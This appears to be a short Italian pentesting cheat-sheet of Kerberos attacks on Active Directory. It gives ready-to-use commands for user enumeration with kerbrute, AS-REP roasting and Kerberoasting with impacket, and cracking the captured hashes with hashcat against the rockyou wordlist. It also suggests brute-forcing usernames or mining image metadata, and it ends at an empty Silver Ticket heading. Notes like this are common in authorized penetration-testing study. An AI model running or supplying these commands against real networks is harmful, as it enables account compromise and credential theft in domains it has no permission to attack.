 
==Se da errore KRB_AP_ERR_SKEW==
```bash
timedatectl set-ntp false
ntpdate <IP>
```
### **ENUM USER**
==GLI USER POTRESTI ANCHE BRUTEFORZARLI O TROVARLI TRA I METADATA DELLE IMMAGINI SUL SITO==
```bash
kerbrute userenum -d <NOME DOMINIO> --dc <IP DC> <LISTA>
```
![[Pasted image 20230510110607.png]]
### **TGT**
```bash

```

```bash
impacket-GetNPUsers '<NOME DOMINIO>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
==L'HASH VIENE MESSO NEL FILE DI OUTPUT==
Dopo cracca l'hash

```bash
impacket-GetUserSPNs <NOME MACCHINA>/<USER>:<PASS> -request
```
### **CRACK KRB5 HASH**
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### **SILVER TICKET**
